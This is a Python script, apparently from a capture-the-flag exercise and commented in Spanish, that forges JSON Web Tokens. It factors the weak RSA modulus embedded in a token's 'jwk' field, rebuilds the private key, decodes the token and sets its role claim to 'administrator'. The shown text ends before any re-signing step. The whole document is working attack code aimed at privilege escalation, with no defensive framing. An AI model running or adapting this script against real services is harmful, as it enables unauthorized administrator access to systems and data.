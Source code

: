 ```coffeescript
#!/usr/bin/python3

import argparse
import json
import base64
import sympy
import jwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization

def gettokenfile(tokenfile):
    #Opening file and saving it as plaintext
    with open(tokenfile, 'r') as file:
        content = file.read()

    return(content)

if __name__ == "__main__":
    ##Taking arguments
    parser = argparse.ArgumentParser(description = 'Modificar argumentos en el payloda the un JWT')
    parser.add_argument('token', type=str, help='Pasa el JWT a modificar')
    
    args = parser.parse_args()
    ##Getting token as plain text
    tokenfile = args.token
    token = gettokenfile(tokenfile)
    
    ##Decoding and loading into a json text
    jwtpayload = json.loads(base64.b64decode(token.split('.')[1] + '===').decode())

    ##Breaking down the key in the jwt
    n = int(jwtpayload["jwk"]["n"])
    print(f'imprimiendo valor de n {n}')

    ##Getting 2 prime numbers
    p,q = list((sympy.factorint(n)).keys())
    print(f'p: {p} and q: {q}')

    e = int(jwtpayload["jwk"]["e"])
    print(f'Esto es e: {e}')
    
    ##Getting phi and the private exponent
    phi = (p-1)*(q-1)
    d = pow(e,-1,phi)
    print(f'esto es phi {phi}, esto es d : {d}')

    key = RSA.construct((n,e,d,p,q))
    private_key_bytes = key.export_key()
    print(f'esta es key: {private_key_bytes}')

    private_key = serialization.load_pem_private_key(
        private_key_bytes,
        password=None,
        backend=default_backend()
    )

    public_key = private_key.public_key()
    print(token)
    
    ##Decode the token with the generated public key
    data = jwt.decode(token+'=', public_key, algorithms=["RS256"])
    data["role"]="administrator"
```